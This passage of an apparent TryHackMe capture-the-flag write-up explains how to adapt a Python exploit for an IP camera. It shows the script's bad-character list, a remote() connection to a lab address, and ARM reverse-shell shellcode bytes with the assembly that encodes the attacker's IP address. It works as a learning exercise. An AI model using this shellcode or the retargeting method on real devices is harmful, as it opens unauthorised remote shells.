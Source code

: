 The code then declares a variable called `BADCHARS` - this contains a set of hex values that we cannot pass on to the device.... these will come into play in a short while...
```python
BADCHARS = b'\x00\x09\x0a\x0d\x20\x23\x26'  # Equivalent to decimal values: 0, 9, 10, 13, 32, 35 and 38 
```

There is also a line towards the end of the script that needs to be updated with the IP Camera's address:
```python
s = remote('10.10.106.239', 50628)
```

Now comes the interesting bit...  The Python script includes a block of code that passes assembly instructions in the form of hex byte strings.  This includes our machine's local IP address hard-coded into the hex byte strings which will be used to establish the reverse shell.  Luckily for us, the inline documentation conviently indicates which line is tackling this and we also have the assembly code corresponding to it:
```python
SC += b'\x59\x1f\xa0\xe3\x01\x14\xa0\xe1\xa8\x10\x81\xe2\x01\x14\xa0\xe1\xc0\x10\x81\xe2\x04\x10\x2d\xe5'   # 192.168.100.1
```
```assembly
/* ADDR */
mov r1, #0x164
lsl r1, #8
add r1, #0xa8
lsl r1, #8
add r1, #0xc0
push {r1}       // 192.168.100.1
```

If you're reading this and are anything like myself - you probably just experienced an involuntary inner *groan* at the site of assembly code 😞...  but please stay with me for a while longer and I hope to demystify this code block for you.

First of all, we can use a Dis/Assembler like https://shell-storm.org/online/Online-Assembler-and-Disassembler/ to convert between assembly instructions and the equivalent hex values that represent it.  This tool will come in useful as we work out how to replace the hex byte string with one containing our local machine's IP address.  It is also worth keeping in mind that ARM uses a little-endian system which essentially means that the octets of the IP address are stored in reverse order, eg. `192.168.100.1` is stored as `1.100.168.192`.

So what's going on with the assembly instructions storing the IP address value of `192.168.100.1`?:
-  Move 0x164 to register R1 (i.e. $356$ in decimal)
-  Shift the register left by eight bits (i.e. perform $356 * 256 = 91136$)
-  Add 0xA8 to R1 (i.e. perform $91136 + 168 = 91304$)
-  Shift the register left by eight bits (i.e. perform $91304 * 256 = 23373824$)
-  Add 0xC0 to R1 (i.e. perform $23373824 + 192 = 23374016$)

So now we have value of **`23374016`** (decimal) stored in register R1.  If we convert this to a 32-bit binary and divide it into octets (i.e. groups of 8 bits each) we get: **`00000001.01100100.10101000.11000000`**, and if we convert this back to decimal we will get: **`1.100.168.192`** - which is the little-endian representation of the IP address we were looking to store.

If you've managed to follow my reasoning this far, it should be clear that we are taking the little-endian representation of the IP address, converting it to decimal and then storing appropriate hex values to register R1 and shifting by 8 bits to the left for each octet to represent this.  In our case this is complicated a bit further by the fact that we have to avoid the hex values defined in the `BADCHARS` variable which include the hex equiavelent value for `10` and - of course- TryHackMe Attackboxes always have an IP address starting with `10.10`!
